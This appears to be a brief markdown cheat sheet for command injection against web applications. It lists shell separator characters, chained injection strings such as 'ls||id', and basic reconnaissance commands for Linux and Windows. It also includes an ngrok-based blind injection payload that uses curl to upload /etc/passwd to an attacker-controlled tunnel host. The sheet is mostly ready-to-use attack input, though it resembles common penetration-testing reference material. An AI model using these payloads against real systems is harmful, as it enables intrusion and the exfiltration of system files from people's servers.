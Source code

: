 # Web Applications:

## Command Injection:

Special Characters

```
&
;
Newline (0x0a or \n)
&&
|
||
command `
$(command )
```

Ngrok for Command Injection:

```bash
# Start listener
$ ./ngrok http 80

# Test for blind injection
Input field - > ;%20curl%20blablabla.ngrok.io

# Take it all
Input field -> ;curl%20-F%20shl=@/etc/passwd%20blablabla.ngrok.io
```

Useful Commands: Linux

```bash
whoami
ifconfig
ls
uname -a
```

Useful Commands: Windows

```powershell
whoami
ipconfig
dir
ver
```

Both Unix and Windows

```
ls||id; ls ||id; ls|| id; ls || id 
ls|id; ls |id; ls| id; ls | id 
ls&&id; ls &&id; ls&& id; ls && id 
ls&id; ls &id; ls& id; ls & id 
ls %0A id
```
